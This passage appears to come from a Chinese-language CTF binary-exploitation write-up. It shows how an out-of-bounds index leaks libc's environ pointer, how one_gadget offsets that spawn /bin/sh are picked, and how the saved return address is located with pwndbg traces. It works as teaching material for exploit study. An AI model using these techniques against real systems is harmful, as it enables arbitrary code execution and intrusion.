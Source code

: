 ```python
def calc(addr):  # 计算想要的地址相对于 addr of arr 的 index
    return int((addr - arr_addr) / 8)
environ = libc.sym['environ']
read(calc(environ))
environ = int(b"0x" + sh.recvline(keepends=False), 16)
```



## one_gadgets and Return Address

> https://blog.csdn.net/chennbnbnb/article/details/104035261 为什么可以利用 environ 
>
> 需要安装有one_gadget

可能可以利用的one_gadget: 

```bash
$ one_gadget libc-2.27.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

- 这里选用了`0x10a41c`的，注意需要满足条件 `[rsp+0x70] == NULL`，exp中会有对应操作使得满足该约束
- 需要注意，`write_handler`中的rbp除函数序言/尾声中会`push rbp; pop rbp`外，中间有语句修改了rbp的值
- 脚本输出(e.g.)

```assembly
calc(environ)= 0x52d34962a07  libc.sym['environ'] = 0x7f3c4685d098
addr of environ = 0x7fff01a4c798 ; 这个值和stack的值的差值不会变，可以利用这个值得到stack的值，也就是ret前的rsp的值，即Return Address
stack = 0x7fff01a4c678 stack+0x70 = 0x7fff01a4c6e8
```

- 而在`write(calc(stack + 0x70), p64(0), True)`时的write_handler 的 ret处断下时，rsp = stack = 0x7fff01a4c678，从下列输出可以看到`0x7fff01a4c678 —▸ 0x55d2a1b468e6`，也就是rsp指向的内存地址0x7fff01a4c678所存储的值是main函数中的地址（下一个要执行的指令地址0x55d2a1b468e6），从 BACKTRACE 中也能看到这确实是下一个要执行的地址
- 知识点：下一个要执行的指令是`ret`, 而`ret`相当于 `pop EIP`，故rsp存储的指针0x7fff01a4c678上存储的0x55d2a1b468e6就是Return Address

```assembly
pwndbg> ni    ; 0x000055d2a1b46c20 in ?? ()
*RBP  0x7fff01a4c680 ◂— 0x2
*RSP  0x7fff01a4c678 —▸ 0x55d2a1b468e6 ◂— jmp    0x55d2a1b46875
*RIP  0x55d2a1b46c20 ◂— ret    
───────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────
   0x55d2a1b46c1a    add    rsp, 0x18
   0x55d2a1b46c1e    pop    rbx
   0x55d2a1b46c1f    pop    rbp
 ► 0x55d2a1b46c20    ret    <0x55d2a1b468e6>   ; 下一条要执行的指令是ret ; 这里也提示了，这条ret指令会回到什么地方
    ↓
   0x55d2a1b468e6    jmp    0x55d2a1b46875 <0x55d2a1b46875>
    ↓
   0x55d2a1b46875    mov    rdi, rbx
   0x55d2a1b46878    call   puts@plt <puts@plt>
───────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
```